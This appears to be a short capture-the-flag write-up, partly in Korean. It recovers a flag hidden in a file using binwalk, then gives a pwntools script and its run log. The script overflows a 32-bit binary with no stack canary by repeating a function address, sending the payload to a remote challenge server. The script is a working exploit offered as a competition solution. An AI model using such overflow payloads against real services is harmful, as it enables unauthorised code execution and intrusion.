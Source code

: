 binwalk를 통해서 `0x31FB5`에 png 파일이 있다는 것을 알 수 있다. 

![](./31FB5.png)

`A0V3R{1_CaN_f1Nd_wh4t's-1nside}`

## basic_overflow

```py
from pwn import *
e = ELF('./i_like_basketball')
flag_addr = e.symbols['No']
log.info('flag : ' + hex(flag_addr))
r = remote('45.32.254.239', 31338)
print r.recv()
payload = 'basketball' + p32(flag_addr) * 15
log.info('payload: ' + payload)
log.info('length: ' + str(len(payload)))
r.sendline(payload)
print r.recv()
```

```
[*] '/Users/junhoyeo/Downloads/Kawai_SuzukazeAoba/i_like_basketball'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] flag : 0x80484db
[+] Opening connection to 45.32.254.239 on port 31338: Done
What's Your Favorite Sport? :
[*] payload: basketballۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0
[*] length: 70
A0V3R{1nt3rest1ng_0v3rFl0w!!}

[*] Closed connection to 45.32.254.239 port 31338
```
